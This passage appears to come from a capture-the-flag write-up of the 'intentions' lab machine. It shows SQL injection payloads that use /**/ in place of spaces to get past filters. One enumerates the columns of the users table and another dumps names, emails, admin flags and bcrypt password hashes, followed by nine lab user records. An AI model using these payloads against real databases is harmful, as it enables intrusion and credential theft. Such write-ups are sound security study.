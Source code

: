                 "file":"intentions",
                "genre":"personal_access_tokens",
                "created_at":"1970-01-01T00:00:04.000000Z",
                "updated_at":"1970-01-01T00:00:05.000000Z",
                "url":"\/storage\/intentions"
            },
            {
                "id":1,
                "file":"intentions",
                "genre":"migrations",
                "created_at":"1970-01-01T00:00:04.000000Z",
                "updated_at":"1970-01-01T00:00:05.000000Z",
                "url":"\/storage\/intentions"
            },
            {
                "id":1,
                "file":"intentions",
                "genre":"users",
                "created_at":"1970-01-01T00:00:04.000000Z",
                "updated_at":"1970-01-01T00:00:05.000000Z",
                "url":"\/storage\/intentions"
            }
        ]
    }
    

The only database is `intentions`, and there are four tables:
`gallery_images`, `personal_access_tokens`, `migrations`, and `users`.

The most immediately interesting table is `users`. I’ll update my genres to
list the columns in that table:

    
    
    ')/**/UNION/**/SELECT/**/1,2,column_name,4,5/**/from/**/information_schema.columns/**/where/**/table_name='users'#
    

This returns `id`, `name`, `email`, `password`, `created_at`, `updated_at`,
and `genres`. I’ll update my query to get all of the interesting information
in one column using `concat`:

    
    
    ')/**/UNION/**/SELECT/**/1,2,concat(name,':',email,':',admin,':',password,':',genres),4,5/**/from/**/users#
    

I get the following users:

    
    
    steve:steve@intentions.htb:1:$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa:food,travel,nature
    greg:greg@intentions.htb:1:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m:food,travel,nature
    Melisa Runolfsson:hettie.rutherford@example.org:0:$2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6:food,travel,nature
    Camren Ullrich:nader.alva@example.org:0:$2y$10$WkBf7NFjzE5GI5SP7hB5/uA9Bi/BmoNFIUfhBye4gUql/JIc/GTE2:food,travel,nature
    Mr. Lucius Towne I:jones.laury@example.com:0:$2y$10$JembrsnTWIgDZH3vFo1qT.Zf/hbphiPj1vGdVMXCk56icvD6mn/ae:food,travel,nature
    Jasen Mosciski:wanda93@example.org:0:$2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW:food,travel,nature
    Monique D'Amore:mwisoky@example.org:0:$2y$10$pAMvp3xPODhnm38lnbwPYuZN0B/0nnHyTSMf1pbEoz6Ghjq.ecA7.:food,travel,nature
    Desmond Greenfelder:lura.zieme@example.org:0:$2y$10$.VfxnlYhad5YPvanmSt3L.5tGaTa4/dXv1jnfBVCpaR2h.SDDioy2:food,travel,nature
    Mrs. Roxanne Raynor:pouros.marcus@example.net:0:$2y$10$UD1HYmPNuqsWXwhyXSW2d.CawOv1C8QZknUBRgg3/Kx82hjqbJFMO:food,travel,nature